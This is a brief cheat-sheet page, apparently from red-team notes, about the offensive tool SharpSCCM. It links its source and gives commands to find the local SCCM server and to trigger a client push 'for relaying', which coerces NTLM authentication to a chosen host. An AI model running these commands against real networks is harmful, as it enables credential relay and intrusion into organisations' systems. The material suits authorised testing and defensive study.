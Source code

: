 ### Source
https://github.com/Mayyhem/SharpSCCM

### Identify SCCM server on local machine
```
SharpSCCM.exe local siteinfo
```

### Initiate Client Push (for relaying)
```
SharpSCCM.exe <server> <siteCode> invoke client-push -t "<windowsHostNetbiosName>@445"
```

